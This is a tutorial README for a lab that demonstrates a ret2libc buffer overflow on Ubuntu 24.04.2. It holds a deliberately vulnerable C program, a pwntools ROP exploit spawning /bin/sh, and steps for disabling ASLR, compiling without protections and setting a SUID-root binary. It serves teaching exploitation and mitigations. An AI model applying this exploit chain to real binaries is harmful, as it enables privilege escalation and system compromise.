




# Practical ret2libc Attack on Ubuntu 24.04.2 LTS: Exploring Buffer Overflows

## Introduction

In this project, we explore a classic exploitation technique known as ret2libc (return-to-libc), which allows an attacker to execute arbitrary functions from the C standard library by overwriting the return address on the stack.

Our goal is to demonstrate a working ret2libc attack against a vulnerable program running on Ubuntu 24.04.2 LTS, exploiting a simple buffer overflow vulnerability to redirect the execution flow to the system() function with /bin/sh as an argument. The vulnerable binary has the SUID bit set, which should allow acquiring elevated privileges. However, due to restrictions imposed by the kernel or additional security mechanisms, the shell obtained does not actually have the expected root privileges.

## Environment and Requirements

The exploit was executed in the following environment and with the following tools:
- **Operating System:** Ubuntu 24.04.2 LTS
- **Architecture:**  x86_64
- **Compiler:** `gcc -fno-stack-protector -z execstack -no-pie`
- **Binary Configuration:** 
  - SUID bit enabled on the vulnerable binary
  -  ASLR disabled during testing (`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`)

## Tools and Libraries Usedd
- **GDB with the pwndbg plugin:**  
  The `pwndbg` plugin for GDB was used to debug the binary and analyze memory.  
  Installation instructions and source code are available at:  
  https://github.com/pwndbg/pwndbg

- **Pwntools:**  
  `Pwntools` is a Python library designed to simplify writing exploits.  
  It was used to create the payload and can be installed via pip (`pip3 install pwntools`) after installing Python 3 and pip with:  
  `sudo apt install python3 python3-pip`.  
  The official documentation is available at:  
  https://docs.pwntools.com/en/stable/

- **ROPgadget:**\
   ROPgadget is a Python tool used to search for ROP (Return Oriented Programming) gadgets in binaries and shared libraries.
   It was used here to find the `pop rdi; ret` and `ret` gadgets required to build the ROP chain.
    It can be installed via pip (`pip3 install ROPgadget`)

    
## Vulnerable Program

The target program is a simple C application intentionally designed to be vulnerable to a classic stack-based buffer overflow.

The vulnerability arises from the use of unsafe functions, such as `gets` in our case, which do not perform input length checks. This allows buffer overflow attacks that enable overwriting the return address on the stack, redirecting the execution flow.

### Vulnerable Code

```c
  #include <stdio.h>
  #include <string.h>

  void vulnerable_function() {
      char buffer[64];
      printf("Inserisci input: ");
      gets(buffer);  // Funzione vulnerabile
      printf("Hai inserito: %s\n", buffer);
  }

  int main() {
      vulnerable_function();
      return 0;
  }
```
## Exploit
Below is the exploit code used to exploit the buffer overflow and overwrite the return address to execute a command like `system("/bin/sh")`.

``` python 

from pwn import *

binary = './main'
context.binary = binary

offset = 72 # Offset to trigger the overflow
system_addr = 0x7ffff7c58750# Example address
binsh_addr = # Address to find
pop_rdi = # Address to find
ret_gadget = # Address to find 

def exploit():

    # Payload construction
    p = process(binary)   
    payload = b"A" * offset               # Padding to reach the return address
    payload += p64(pop_rdi)               # pop rdi; prepares the RDI register for the first argument to system()
    payload += p64(binsh_addr)             # Address of the "/bin/sh" string
    payload += p64(ret_gadget)             # Stack alignment gadget (ret) to avoid ROP issues
    payload += p64(system_addr)            # Address of system() function to spawn the shell

    p.sendline(payload)                    # Sending the payload to the vulnerable program
    p.interactive()                       # Interactive interaction with the obtained shell

if __name__ == "__main__":
    exploit()
```

### Explanation

- `offset` is the number of bytes needed to fill the buffer up to the return address on the stack. It must be calculated precisely so that the payload can actually overwrite the return address.

- ***Indirizzi hardcoded***[^1]() (`system_addr`,`binsh_addr`,`pop_rdi`,`ret_gadget`):
  These addresses are used for ROP (Return Oriented Programming).

  - `pop_rdi`: gadget that allows loading a value into the RDI register, used to pass the first argument to`system`.

  - `ret_gadget`: serves to realign the stack; without it, errors could occur due to misalignment.

  - `system_addr`: address of the `system()` function in libc.

  - `binsh_addr`:  address of the `"/bin/sh"` string that will be passed as an argument to `system()`.

- Payload construction: 
  `offset + pop_rdi + binsh_addr + ret_gadget + system_addr` 
  where each parameter is added with `+= p64(...)` to force the conversion from an integer to an 8-byte sequence in little-endian format.

- `p.sendline(payload)` sends the payload as input to the vulnerable program.

- `p.interactive()` allows us to communicate with an interactive shell if the exploit works.

#### Note [^1]()
Hardcoded addresses are memory addresses manually and statically inserted into the source code of a program or an exploit.
Hardcoded addresses work only if the environment (libc version, memory layout, ASLR state) remains the same. For this reason, we disabled ASLR at the beginning.


## Step-by-Step Guide to Executing the Exploit

### 1. Environment Preparation
  - Disable ASLR:
    ``` bash 
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    ```
  - Cereate the main.c source code:
    ``` bash 
    nano main.c
    ```
  - Compile the vulnerable program with security mitigations disabled::
    ``` bash 
    gcc -fno-stack-protector -z execstack -no-pie -o main main.c
    ```
    `-fno-stack-protector`: disables stack canaries\
    `-z execstack`: makes the stack executable\
    `-no-pie`: disables position-independent executable

  - Check security settings on the binary:
    ``` bash 
    checksec --file=main
    ```
    You should get an output similar to the following:
  
    


  - Set the owner to root and enable the SUID bit on the binary to allow it to run with root privileges:
    ``` bash 
    sudo chown root:root main
    chmod 4755 main
    ```

 ### 2. Vulnerable Binary Analysis

  - Start GDB:
    ``` bash  
    gdb ./main
    ```

  - Disassemble main:
    ``` gdb  
    pwndbg> disassemble main
    ```
    We see that main calls another function (`vulnerable_function`)

  - Start GDB:
    ``` gdb  
    pwndbg> disassemble vulnerable_function
    ```
    Inside this function, we notice a call to `gets`:

    

### 3. Finding the Offset

  To precisely determine how many bytes are needed to reach the return address on the stack, we can use pwntools’ cyclic pattern combined with GDB. 

  - Generate a unique cyclic pattern of 120 bytes:
    ``` gdb
    pwndbg> cyclic 120
    ```
  - Run the program inside GDB and **paste** the pattern: 
    ``` gdb 
    pwndbg> run
    ```
  - Find the exact offset:
    ``` gdb 
    pwndbg> cyclic -l <value_of_rsp>
    ```
    Replace <value_of_rsp> with the value of rsp shown after the crash.

    \
    

### 4. Finding the addresses of system() and "/bin/sh"

  To craft a working ret2libc exploit, it is essential to locate the exact addresses of the system() function and the string "/bin/sh" within the libc loaded in memory during the execution of the vulnerable program.
    
  - Find the **address** of `system()` by typing:
    ``` gdb 
    pwndbg> p system 
    ```
  - Find the **address** of the string `"/bin/sh"` using the pwndbg search command:
    ``` gdb 
    pwndbg> search -t string "/bin/sh"
    ```
    
  
### 5. Finding pop rdi and ret gadgets from libc
To build the ROP chain necessary for the ret2libc exploit, we need specific gadgets such as `pop rdi; ret` and a standalone  `ret` for stack alignment.

  - Determine the base address - **<base_addr>** of libc loaded in memory:
    ``` gdb 
    pwndbg> vmmap 
    ```
  

  - Exit GDB:
    ``` gdb 
    pwndbg> q
    ```

  - Use ROPgadget to find the `pop rdi` gadget:
    ``` bash 
    ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi"
    ```  
    This outputs gadgets including `pop rdi; ret`.\
    Take their **offset** and add it to the **<base_addr>** to get the absolute address [^2]().

  - To find the `ret` gadget (since there can be many), run:
    ``` bash 
    ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "ret" > ret.txt
    ``` 
    This saves the output to a file ret.txt for easier searching.\
    Open `ret.txt`, find a suitable ret gadget address, and again add the libc base address to compute its absolute address [^2]().


  #### Note [^2]()
To find the absolute address of a gadget, add the libc base address and the gadget offset.
  - In GDB, you can do this by evaluating:
    ``` bash 
    gdb ./main
    pwndbg> p/x <base_addr> + <offset>
    ```
  
### 6. Creating and Running the Exploit Script

- Create the exploit file:
    ``` bash 
    vim exploit.py
    ``` 

- Copy and paste the Python script shown above into this file.
  
- Then update it by inserting:
  - the offset value (using cyclic -l),
  - the exact addresses for system, /bin/sh, pop rdi and ret you calculated with GDB and ROPgadget.
- Save and exit (:wq in vim).
- Run the exploit:
    ``` bash 
    python3 exploit.py
    ``` 
- If everything is correct, you will drop into a shell. This demonstrates successful exploitation of the buffer overflow with a ret2libc attack.

  

## Conclusion
In this demo, we expected to achieve privilege escalation since the `main` executable was configured with the `SUID bit` and owned by `root`. However, even though we successfully exploited the buffer overflow and invoked `system("/bin/sh")`, as shown in the screenshot, the resulting shell did not escalate privileges but instead retained those of the calling user.

This behavior is most likely due to restrictions enforced by modern kernels or because many Linux distributions explicitly disable actual privilege elevation via SUID under such circumstances.

Additionally, in this demonstration we deliberately paved the way by disabling several layers of protection that, on up-to-date systems, would make a ret2libc attack much more challenging:

- **ASLR (Address Space Layout Randomization)**: randomizes memory addresses, preventing the use of hardcoded addresses as done in this project.
- **Stack canaries**: detect corruption of the return address on the stack.
- **Non-executable stack (NX)**: prevents execution of code on the stack, which in this case did not affect us since we used ret2libc instead of injecting shellcode.
- **RELRO / PIE**: RELRO protects the GOT from overwrites, while PIE further randomizes the executable’s memory layout, making it impractical to know addresses ahead of time and amplifying the impact of ASLR.


## References 
- Pwntools documentation: https://docs.pwntools.com/
- ROPgadget tool: https://github.com/JonathanSalwan/ROPgadget
- pwndbg – GDB plugin for exploit development: https://github.com/pwndbg/pwndbg
- ChatGPT (OpenAI) 
- Claude (Anthropic):
- YouTube Reference: Return To LIBC(Ret2Libc) || Binary Exploitation - 0x9
https://www.youtube.com/watch?v=mbYW0AcGnos&list=PL-DxAN1jsRa_rO0pr-1uJR_k_5Y9n-V1i&index=10


